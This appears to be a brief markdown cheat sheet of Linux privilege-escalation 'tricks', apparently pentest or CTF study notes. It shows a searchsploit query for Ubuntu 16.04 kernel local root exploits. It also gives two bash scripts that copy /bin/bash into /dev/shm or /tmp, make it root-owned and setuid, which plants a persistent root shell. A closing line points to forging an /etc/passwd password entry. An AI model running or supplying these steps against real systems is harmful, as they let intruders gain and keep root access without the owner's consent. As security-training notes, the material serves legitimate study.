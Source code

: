# Tricks

```bash
# Given we know we are running 16.04.3 LTS (kernel 4.4.0-116-generic)
searchsploit "Linux Kernel Ubuntu 16.04 Local Privilege Escalation" | grep "4." | grep -v " < 4.4.0"
```

Checking `syslog` is particularly useful when exploits dont work as intended

Living in `/dev/shm/` (`/dev/shm` is RAM)

```bash
#!/bin/bash
cp /bin/bash /dev/shm/bash
chown root:root /dev/shm/bash
chmod u+s /dev/shm/bash
```

Living in `/tmp/`

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod u+s /tmp/bash
```

Generate a password for `/etc/passwd` with [openssl](../Tools/Encryption/openssl.md)
